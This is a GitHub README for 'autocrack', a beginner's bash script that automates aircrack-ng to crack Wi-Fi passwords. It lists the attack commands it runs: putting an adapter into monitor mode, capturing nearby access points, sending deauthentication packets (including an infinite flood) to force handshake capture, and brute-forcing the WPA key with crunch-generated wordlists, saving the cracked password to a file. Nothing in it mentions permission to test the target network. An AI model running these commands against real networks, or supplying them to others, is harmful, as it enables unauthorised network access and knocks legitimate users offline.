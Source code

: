 # autocrack
Make aircrack-ng 1.6 works under bash(absolute beginner's script).

YOU ARE FREE TO DOWNLOAD AND EDIT THIS CODE!

prerequisite:
- linux os(debian was used)
- wifi adapter or a laptop with adapter that support monitor mode

make the script run:
- copy the autocrack.sh into a new directory
- open terminal and change the mode to executable(chmod +x autocrack.sh)
- run (sudo ./autocrack.sh)
- password will output in (password.txt)
- and do your thing!

some commands:
- put on monitor mode (airmon-ng start $int)
- use to capture all access point (airodump-ng -w mytable --output-format csv --write-interval 1 $mon_int)
- use to capture handshake and send deauthentication packet'replace 25 with 0 to send infinit deauthentication packet (airodump-ng --bssid "$bssid" -c "$ch" -w "$essid" "$mon_int" & aireplay-ng --deauth 25 -a "$bssid" "$mon_int") 
- make a wordlist and pass it to aircrack-ng to scan for match (crunch $min $max $char|aircrack-ng -b $bssid -w- $cap_file -l password.txt)
- if already have wordlist (aircrack-ng -b $bssid -w $wordlist $cap_file -l password.txt)


and as usual ENJOY!
